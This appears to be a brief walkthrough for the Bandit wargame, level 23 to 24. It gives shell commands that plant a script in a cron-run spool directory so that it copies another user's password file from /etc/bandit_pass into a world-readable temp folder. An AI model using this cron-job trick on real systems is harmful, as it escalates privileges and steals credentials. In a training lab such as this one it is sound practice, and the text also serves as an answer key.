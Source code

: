 # Level 23 -> Level 24  

```bash
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
cd /var/spool/bandit24/foo
mktemp -d
cd /tmp/tmp.9J9nSW5Y2r
touch password
nano script.sh
```

Create script.sh

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.9J9nSW5Y2r/password
```

continue

```bash
chmod 777 -R /tmp/tmp.9J9nSW5Y2r
cp script.sh /var/spool/bandit24/foo/
cat password
```

